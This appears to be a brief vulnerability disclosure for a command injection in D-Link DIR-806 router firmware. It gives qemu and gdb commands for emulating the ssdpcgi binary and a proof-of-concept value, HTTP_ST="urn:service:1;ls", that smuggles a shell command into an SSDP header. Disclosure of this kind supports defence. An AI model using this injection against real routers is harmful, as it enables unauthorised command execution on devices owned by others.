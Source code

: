 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
Debugging with qemu and gdb:
qemu: 
`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT=8888 -E HTTP_ST="urn:service:1;ls" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`
gdb: \s
`set architecture mips` 
`set endian big` 
`target remote 127.0.0.1:12345` 
Set the HTTP_ST parameter as HTTP_ST="urn:service:1;ls" 
![image-1](../img/1.jpg)
